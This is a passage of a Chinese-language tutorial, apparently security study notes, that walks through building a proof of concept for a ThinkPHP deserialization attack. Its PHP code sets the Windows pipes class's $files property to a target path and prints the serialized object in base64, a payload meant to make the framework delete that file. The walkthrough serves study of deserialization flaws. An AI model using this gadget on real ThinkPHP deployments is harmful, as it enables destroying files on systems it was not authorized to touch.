 > 可以看到变量 `$files` 的定义

复制变量 `$files` 所在的类

![复制变量 $files 所在的类](./../../../images/PHP%20%E5%BA%8F%E5%88%97%E5%8C%96/%E5%A4%8D%E5%88%B6%E5%8F%98%E9%87%8F%20$files%20%E6%89%80%E5%9C%A8%E7%9A%84%E7%B1%BB.png)

删除无用的代码

```php
<?php
namespace think\process\pipes;
use think\Process;
class Windows extends Pipes
{
}
```

在 `C:\phpstudy_pro\WWW\think\public\removefile.php` 构造 POC ， 定义 `private $files = [];` 为 `$this->files=['c:\\hello.txt'];` ，定义一个空的 `Pipes` ，并增加 `public function _construct()` 魔术方法

```php
<?php
//引用命名空间和 Pipes 类
namespace think\process\pipes;
use think\Process;
class Pipes{
}
//Windows 类
class Windows extends Pipes
{
//files 属性
private $files = [];
//__construct 魔术方法
public function __construct()
{
//$this->files 属性的值修改为我们要删除的文件
$this->files=['c:\\hello.txt'];
}
}
//base64 输出序列化后的 Windows 对象
echo base64_encode(serialize(new Windows()));
?>
```
